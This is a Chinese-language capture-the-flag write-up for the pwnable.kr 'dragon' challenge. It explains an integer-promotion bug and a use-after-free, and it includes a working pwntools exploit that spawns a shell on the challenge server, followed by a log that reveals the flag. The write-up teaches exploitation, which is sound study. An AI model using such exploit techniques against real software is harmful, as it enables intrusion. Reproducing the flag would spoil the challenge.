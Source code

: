 ```yaml
---
title: pwnable.kr-dragon
date: 2018-02-27 17:37:30
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这道题找溢出找了半天，游戏也玩了半天，唉最后还是细心读代码找出了漏洞。这是一个c语言不同类型比较隐式转换导致的漏洞，还是有点意思的。
# 分析
放ida逆向一下，程序代码逻辑有点长，不过认真读的话还是能理解的。
```c
int PlayGame()
{
  int result; // eax@1

  while ( 1 )
  {
    while ( 1 )
    {
      puts("Choose Your Hero\n[ 1 ] Priest\n[ 2 ] Knight");
      result = GetChoice();
      if ( result != 1 && result != 2 )
        break;
      FightDragon(result);
    }
    if ( result != 3 )
      break;
    SecretLevel();
  }
  return result;
}
```
```c
void __cdecl FightDragon(int a1)
{
  char v1; // al@1
  void *v2; // ST1C_4@10
  int v3; // [sp+10h] [bp-18h]@7
  _DWORD *ptr; // [sp+14h] [bp-14h]@1
  _DWORD *v5; // [sp+18h] [bp-10h]@1

  ptr = malloc(0x10u);
  v5 = malloc(0x10u);
  v1 = Count++;
  if ( v1 & 1 )
  {
    v5[1] = 1;
    *((_BYTE *)v5 + 8) = 80;
    *((_BYTE *)v5 + 9) = 4;
    v5[3] = 10;
    *v5 = PrintMonsterInfo;
    puts("Mama Dragon Has Appeared!");
  }
  else
  {
    v5[1] = 0;
    *((_BYTE *)v5 + 8) = 50;
    *((_BYTE *)v5 + 9) = 5;
    v5[3] = 30;
    *v5 = PrintMonsterInfo;
    puts("Baby Dragon Has Appeared!");
  }
  if ( a1 == 1 )
  {
    *ptr = 1;
    ptr[1] = 42;
    ptr[2] = 50;
    ptr[3] = PrintPlayerInfo;
    v3 = PriestAttack((int)ptr, v5);
  }
  else
  {
    if ( a1 != 2 )
      return;
    *ptr = 2;
    ptr[1] = 50;
    ptr[2] = 0;
    ptr[3] = PrintPlayerInfo;
    v3 = KnightAttack((int)ptr, v5);
  }
  if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(_DWORD *))*v5)(v5);
  }
  else
  {
    puts("\nYou Have Been Defeated!");
  }
  free(ptr);
}
```
```c
int __cdecl PriestAttack(int a1, void *ptr)
{
  int v2; // eax@1

  do
  {
    (*(void (__cdecl **)(void *))ptr)(ptr);
    (*(void (__cdecl **)(int))(a1 + 12))(a1);
    v2 = GetChoice();
    switch ( v2 )
    {
      case 2:
        puts("Clarity! Your Mana Has Been Refreshed");
        *(_DWORD *)(a1 + 8) = 50;
        printf("But The Dragon Deals %d Damage To You!\n", *((_DWORD *)ptr + 3));
        *(_DWORD *)(a1 + 4) -= *((_DWORD *)ptr + 3);
        printf("And The Dragon Heals %d HP!\n", *((_BYTE *)ptr + 9));
        *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
        break;
      case 3:
        if ( *(_DWORD *)(a1 + 8) <= 24 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          puts("HolyShield! You Are Temporarily Invincible...");
          printf("But The Dragon Heals %d HP!\n", *((_BYTE *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
          *(_DWORD *)(a1 + 8) -= 25;
        }
        break;
      case 1:
        if ( *(_DWORD *)(a1 + 8) <= 9 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          printf("Holy Bolt Deals %d Damage To The Dragon!\n", 20);
          *((_BYTE *)ptr + 8) -= 20;
          *(_DWORD *)(a1 + 8) -= 10;
          printf("But The Dragon Deals %d Damage To You!\n", *((_DWORD *)ptr + 3));
          *(_DWORD *)(a1 + 4) -= *((_DWORD *)ptr + 3);
          printf("And The Dragon Heals %d HP!\n", *((_BYTE *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
        }
        break;
    }
    if ( *(_DWORD *)(a1 + 4) <= 0 )
    {
      free(ptr);
      return 0;
    }
  }
  while ( *((_BYTE *)ptr + 8) > 0 );
  free(ptr);
  return 1;
}
```
```c
int SecretLevel()
{
  char s1; // [sp+12h] [bp-16h]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  printf("Welcome to Secret Level!\nInput Password : ");
  __isoc99_scanf("%10s", &s1);
  if ( strcmp(&s1, "Nice_Try_But_The_Dragons_Won't_Let_You!") )
  {
    puts("Wrong!\n");
    exit(-1);
  }
  system("/bin/sh");
  return *MK_FP(__GS__, 20) ^ v2;
}
```
贴了几个关键的函数反编译代码，程序逻辑就不细说了，下面只记录关键部分。
在`SecretLevel`函数中有一段执行shell的代码，但是没办法绕过判断。程序的漏洞在`PriestAttack`函数内，该函数在怪物的血量不大于0时跳出循环，但是记录怪物血量的变量是`BYTE`类型的，也就是`unsigned char`类型。与它比较的0默认情况是`signed int`。
在c语言中不同类型的变量做比较会进行隐式类型转换，短长度类型会向较长长度类型转换，长度一致符号不同则向无符号转换，整数会向float转换，float会向double转换。这些网上都能搜到，所以就不继续说了。
那么这里的比较，`BYTE`就会向`signed int`转换。如果此时怪物血量为`128`,转换为二进制就是`10000000`,那么进行符号扩展时就变成了`0xffffff80`,而这个数其符号位为`1`所以是个负数，那么函数就会跳出循环并返回`1`。然而使怪物的血量达到`128`是可行的，可以使用第一个英雄挑战`Mama Dragon`，每个回合配合使用`3`和`2`技能使怪物自动增长血量，最后就能使怪物血量达到128。
接下来就是游戏胜利的判断了。
```c
  if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(_DWORD *))*v5)(v5);
  }
```
进入该判断后，由于在前面的函数中`v5`这个堆指针已经释放了但是没有置0，这里马上又申请了一个大小一样的堆空间，那么根据glibc的堆分配策略这里的`v2`会引用之前`v5`指向的堆，接下来`v2`的内容可控下面又有`v5`函数的调用，所以就可以写入任意地址来执行了。这里算是一个`UAF`漏洞。
知道了利用方法下面给出exp
```python
from pwn import *

def work(DEBUG):
    context(arch='i386',os='linux',log_level='info')
    if DEBUG:
        r = process('./dragon')
    else:
        r = remote('pwnable.kr',9004)
        
    target_addr = 0x08048dbf
    
    r.send("1\n"*3+'1\n'+"3\n3\n2\n"*4)
    r.recvuntil("You As:\n")
    r.sendline(p32(target_addr))
    r.interactive()

work(False)
```
```bash
root@1:~/桌面/test$ python 1.py
[+] Opening connection to pwnable.kr on port 9004: Done
[*] Switching to interactive mode
And The Dragon You Have Defeated Was Called:
$ ls
dragon
flag
log
super.pl
$ cat flag
MaMa, Gandhi was right! :)
$ 
```
# 总结
在c语言编码时得注意不同类型变量的比较，很有可能在隐式转换时造成漏洞。